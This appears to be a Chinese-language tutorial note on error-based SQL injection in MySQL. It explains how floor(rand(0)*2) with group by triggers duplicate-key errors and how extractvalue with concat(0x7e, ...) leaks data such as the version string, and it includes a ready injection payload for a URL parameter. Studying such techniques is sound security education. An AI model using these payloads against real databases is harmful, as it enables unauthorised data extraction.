 

#### 函数 - floor(x) 

- floor(x) - 返回不大于 x 的最大整数 
- 测试SQL:
  - select floor(0.1), floor(0.50), floor(0.99), floor(1.9), floor(2.1);



#### 函数 - count(x) 

- count(x) - 返回 x 数据集的数量 
- 测试SQL:
  - select * from test;
  - select count(*) from test;
  - select count(*) from test where id=1;



#### 函数 - concat(x) 

- 测试SQL:
  - select count(\*),concat((select user()), floor(rand(0)*2)) x from test group by x;
    - 没报错，输出 2 | root@localhost1
  - insert into test values (1, 'test3');  -- 插入重复的 ID 数据
  - select * from test;
  - select count(\*),concat((select user()),floor(rand(0)*2))x from test group by x;
    - 报错了，输出 ERROR 1062 (23000): Duplicate entry 'root@localhost1' for key 'group_key'
- 思考：为什么会触发错误呢？ 
- 继续测试
  - select floor(rand(0)*2) from information_schema.tables limit 1,10;
  - 结合 rand 函数的特性，继续思考函数报错的原因 
    - 在进行 group by 的时候，会出现创建一个虚拟表的操作，使用的主键是 x
    - 查询主键 0，不存在，直接插入
    - 插入时重新计算，主键成为1
    - 查询主键1，存在，直接增加1
    - 查询主键0，主键不存在，直接插入
    - 插入时重新计算，主键成为1，无法插入数值为1的主键（主键1的内容已经存在）
      - 主键插入冲突 --> 报错 
      - Duplicate 



#### 函数 - extractvalue 

- 报错注入 pyload 原理（ EXTRACTVALUE ） 
  - ?id=1' and extractvalue(1, concat(0x7e, (select @@version))) -- ' 
- 测试SQL:
  - select @@version;
  - select extractvalue(1, (select @@version));
    - 报错，ERROR 1105 (HY000): XPATH syntax error: '.43'
  -  select extractvalue(1, concat(0x7e, (select @@version)));
    - 报错，ERROR 1105 (HY000): XPATH syntax error: '~5.6.43'
- 思考：
  1. 为什么要使用 concat 函数呢？
     1. 将报错触发条件，与有价值的数据结合在一起
  2. 0x7e 是什么？ 
     1. 0x7e 是一个 ~，可以保证其无法被执行，而报错
